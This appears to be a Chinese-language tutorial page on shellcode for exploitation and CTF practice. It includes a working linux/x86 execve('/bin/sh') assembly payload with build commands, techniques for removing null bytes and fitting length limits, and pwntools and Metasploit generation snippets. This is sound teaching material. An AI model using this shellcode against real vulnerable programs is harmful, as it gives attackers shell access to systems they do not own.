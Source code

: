# Shellcode

Shellcode 是一小段代码, 在漏洞利用后用于注入到目标程序中执行. 常见的一个功能是获取 shell 因此得名.  

## 编写

以下是一段简单的 shellcode 代码:  

```asm
# linux/x86 execve("/bin/sh", 0, 0) 21 bytes
global _start
_start:
    xor  edx, edx ;; argv = 0
    xor  ecx, ecx ;; envp = 0
    push ecx
    push "/sh"
    push "/bin"
    mov  ebx, esp ;; pathname = "/bin/sh"
    mov  al, 0xb  ;; execve NR
    int  0x80     ;; syscall
```

可以使用在线工具 [Compiler Explorer](https://godbolt.org/) 进行编译, 在 Linux 下可以使用 [NASM](https://www.nasm.us/) 进行编译:  

```sh
nasm -f elf32 shellcode.asm             # 编译
ld -m elf_i386 -o shellcode shellcode.o # 链接
objdump -d shellcode                    # 打印反汇编结果
```

设置参数并将系统调用的 NR(number) 写入指定寄存器后触发中断即可. 其他指令集的用法有所不同, 具体使用方式请参考 [Linux 系统调用](https://publicki.top/syscall.html).  

## 定制

根据漏洞的具体情况, shellcode 会受到一定限制. 下面将简要说明如何满足这些限制.  

### 限制能使用的字符

以常见的 bad char 0x00('\0') 为例, 观察二进制代码会发现 `push "/sh"` 由于参数大小为 24 比特, 因此被当作 imm32. 最后多出的一字节使用 0 填充, 产生了 0x00, 使得该 shellcode 无法作为一个 C-style 的字符串.  
将该命令改为 `push "//sh` 即可在不影响程序运行/不增加大小的情况下消除这个 0x00.  
传递给 execve 的两个参数也为 0, 这里使用 xor 来将寄存器的值改为 0, 避免直接以 0 作为立即数而导致产生 0x00.  

### 限制长度

手工编写专用的 shellcode, 以实现体积最小化. 还可以将体积较大的 shellcode 存放在其他位置(对大小不敏感, 但不能执行), 然后搜索并执行.  

!!! info "CTF"
    可能限制系统调用的使用, 此时需要编写专门的 shellcode 只通过可用的系统调用完成任务.  

## 生成

- 利用 [MSF](./Metasploit.md) 生成 shellcode, 可定制.
- 利用 [ALPHA3](https://github.com/TaQini/alpha3) 生成由可见字符集构成的 shellcode.
- 利用 [pwntools](https://github.com/Gallopsled/pwntools) 生成特定架构和系统的 shellcode, 不可定制.

    ```py
    from pwn import *
    context(arch = 'i386', os = 'linux') # linux/x86
    print shellcraft.sh()      # 输出 shellcode 汇编代码
    print asm(shellcraft.sh()) # 输出 shellcode 二进制代码
    ```

## 参见

- [Exploit Database Shellcodes](https://www.exploit-db.com/shellcodes)
- <http://shell-storm.org/shellcode/>
